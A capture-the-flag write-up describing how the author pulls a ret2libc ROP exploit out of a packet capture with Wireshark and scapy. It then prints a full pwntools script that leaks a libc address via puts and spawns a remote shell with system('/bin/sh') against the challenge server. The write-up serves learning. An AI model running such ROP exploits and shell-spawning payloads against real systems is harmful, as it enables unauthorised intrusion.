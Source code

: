 ```
Our network was recently breached by some 0-day that we never saw before.
I am providing you with the pcap of the network. Please find out what did they take.

Difficulty estimate: Easy
```

This challenge really intrigued me since it didn't provide us with a binary, so I was really curious about how should one approach this problem.

Since we are provided with a pcap we start by firing up wireshark and analyzing the packets.

Besides ssh and tls traffic there are some interesting tcp packets sending some data. I applied the data as a column in tcp so i can see all the packets sending data, and something amazing showed up. Those packets were actually the exploit being sent over the wire.

I wanted to get all those packets in order to analyze them more in-depth so i opend scapy and filtered the packets that were communicationg on port 4445 since the communication took place on that port.

```
>>> packets = rdpcap('log2.pcapng')                                                                                                          
>>> pkts = PacketList() 
...: for p in packets: 
...:     if p.haslayer(Raw) and p.haslayer(TCP): 
...:         if p[TCP].sport == 4445 or p[TCP].dport == 4445: 
...:             print(p.load) 
...:                                                                                                                                         
b'AAAAAAAAAAAAAAAAAAAAAAAA'
b'read GOT at 0x404020\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00\n'
b'puts PLT at 0x40102c\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00,\x10@\x00\x00\x00\x00\x00\n'
b'main in binary at 0x4011a3\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00 @@\x00\x00\x00\x00\x00,\x10@\x00\x00\x00\x00\x00\xa3\x11@\x00\x00\x00\x00\x00\n'
b'read found at 0x7f76847cf250\nputs found at 0x7f7684747690\nsystem found at 0x7f768471d390\nfree found at 0x7f768475c4f0\nmalloc found at 0x7f768475c130\n'
b'We should be back at the beginning of binary'
b'POP RDI; RET gadget at 0x40124b\n'
b'AAAAAAAAAAAAAAAAAAAAAAAAK\x12@\x00\x00\x00\x00\x00WM\x86\x84v\x7f\x00\x00\x90\xd3q\x84v\x7f\x00\x00\n'
b"Got shell, let's roll\n"
b'Got flag as evlz{XxXxXxXxXxXxXxXxXxXxXxX}ctf\nClosing connection\n'
```

Hmm, this is interesting. So we know the address of system, let's search for the libc. After a quick search on libc.blukat.me I found it. Now let's get to the exploit. As we can see it's a simple rop chain. We also have the address of a pop rdi gadget. Things are simple now, call puts with the address of read, find the offset of libc in memory then call `system('/bin/sh')`.

Final exploit:

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch='i386')
exe = './path/to/binary'
libc = ELF('./libc.so')

host = args.HOST or '35.198.113.131'
port = int(args.PORT or 31336)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

# -- Exploit goes here --

padding = 'A' * 24

pop_rdi  = b'K\x12@\x00\x00\x00\x00\x00'
read_got = b' @@\x00\x00\x00\x00\x00'
puts_plt = b',\x10@\x00\x00\x00\x00\x00'
main     = b'\xa3\x11@\x00\x00\x00\x00\x00'

read_libc   = 0xf7250
system_libc = 0x45390
binsh_libc  = 0x18cd57

io = start()

# Stage 1. Leak

print(io.recv())
io.sendline(padding + pop_rdi + read_got + puts_plt + main)

leaked_read = u64(io.recvline().strip().ljust(8, '\x00'))
offset      = leaked_read - read_libc

log.success('read@libc: ' + hex(leaked_read))
log.success('Offset: ' + hex(offset))

# Stage 2. g3t_5h311

print(io.recv())
io.sendline(padding + pop_rdi + p64(binsh_libc + offset) + p64(system_libc + offset))

io.interactive()

```

Got flag as `evlz{w0ah_A_pwn3r_do3s_netw0rk_for3nsic5}ctf`

This was a really great problem, I loved how this CTF had lots of original problems, had a really great time playing it! Love and peace!

